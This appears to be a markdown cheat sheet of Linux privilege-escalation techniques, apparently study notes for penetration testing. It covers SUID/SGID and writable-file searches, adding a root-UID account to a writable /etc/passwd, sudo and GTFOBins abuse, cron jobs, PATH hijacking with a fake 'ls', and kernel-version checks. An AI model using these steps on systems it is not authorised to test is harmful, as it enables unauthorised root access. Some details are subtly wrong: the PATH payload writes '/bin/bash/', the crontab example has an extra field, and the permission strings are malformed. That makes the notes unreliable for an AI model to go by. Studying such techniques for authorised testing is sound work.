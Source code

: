 # Linux privilege escalation

## Abusing SUID/GUID files

- SUID: `rws-rwx-rwx`
- GUID: `rwx-rws-rwx`

```bash
find / -perm /4000 -type f 2>/dev/null     # SUID
find / -perm /u=s  -type f 2>/dev/null     # SUID
find / -perm /2000 -type f 2>/dev/null     # SGID
find / -perm /g=s  -type f 2>/dev/null     # SGID
find / -perm /6000 -type f 2>/dev/null     # SGID + SUID
find / -perm /u=s,g=s -type f 2>/dev/null  # SGID + SUID
```


## Finding writeable files

```
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```


## Exploiting a writeable /etc/passwd

- Line format
```
username:password:uid:gid:info:home:shell
```

- Example line 

```
admin:x:0:0:root:/root:/bin/bash
```

- Generate password hash 

```
openssl passwd -1 -salt [salt] [password]
```

## Escaping executables

```bash
sudo -l
```

[https://gtfobins.github.io/](https://gtfobins.github.io/)

## Exploiting Crontab

- View scheduled cron jobs

```
cat /etc/crontab
```

- Cronjob format

| keyword | meaning                           |
| :------ | :-------------------------------- |
| \#      | ID                                |
| m       | Minute                            |
| h       | Hour                              |
| dom     | Day of the month                  |
| mon     | Month                             |
| dow     | Day of the week                   |
| user    | What user the command will run as |
| command | What command should be run        |


**\# m h dom mon dow user command**

```
17 * 1 * * * root cd / && run-parts --report /etc/cron.hourly
```

## Exploiting the PATH variable

> Rewrite the PATH variable to point to an imitating executable that is being called within a script with SUID privileges.

```bash
echo $PATH
cd /tmp
echo "/bin/bash/" > ls
chmod +x ls
export PATH=/tmp:$PATH
```


## Checking for kernel exploits

- Crossmatching both of these for a suitable exploit

```
uname -a
lsb_release -a
```


## More Info

* [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-\_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
* [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

